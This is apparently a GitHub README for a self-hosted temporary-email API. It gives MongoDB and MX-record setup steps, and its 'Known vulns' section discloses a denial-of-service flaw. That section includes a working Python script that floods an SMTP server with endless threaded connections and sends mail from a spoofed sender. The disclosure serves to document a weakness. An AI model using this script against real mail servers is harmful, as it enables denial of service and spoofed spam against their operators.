 ---------------------------------------
  
<br/>
<div align="center">
  <a href="https://github.com/femboy-party/tempmail-api">
    <img src="https://i.imgur.com/fJYAFil.png" alt="Logo" width="120" height="120">
---------------------------------------

### Setup
* Firstly create a mongodb account, and proceed to create a new project.
* Now create a new database.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454657812049990/unknown.png">
* Now goto the database overview and goto the collections tab.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454911882035201/unknown.png">
* Now create a new database / collection.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901455049618751498/unknown.png">
* Now edit the following files and put your connection url inside.
```
API/database.py
SMTP/database.py
```
* All you have to do now is run main.py on your vps.

---------------------------------------

### Add domains
1. Open your domain management
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515103249473546/unknown.png">
2. Go to advanced dns
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515754641653760/unknown.png">
3. Scroll down until you see mail settings
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515920639651850/unknown.png">
4. Select MXE Record
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516078861369354/unknown.png">
5. Put <your vps ip> as the value
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516266401296384/unknown.png">
6. Save and done!

---------------------------------------

### Known vulns
* SMTP Connections, Spamming smtp connections and attempting to send an email will result in the api not responding until you stop trying to connect/send.
  ```py
  import smtplib
  import threading
  
  def send():
      message = """From: dropout <dropout@fbi.gov>
      To: admin <user@domain.com>
      Subject: SMTP Vuln

      Naughty, Naughty vuln
      """
      try:
          smtp = smtplib.SMTP("stmp.server.com")
          smtp.sendmail("dropout@fbi.gov", "user@domain.com", message)         
      except Exception:
          pass
  
  if __name__ == "__main__":
      while True:
          threading.Thread(target=send).start()
  ```

---------------------------------------

### Contact
bo@cia.contact
bo#0005
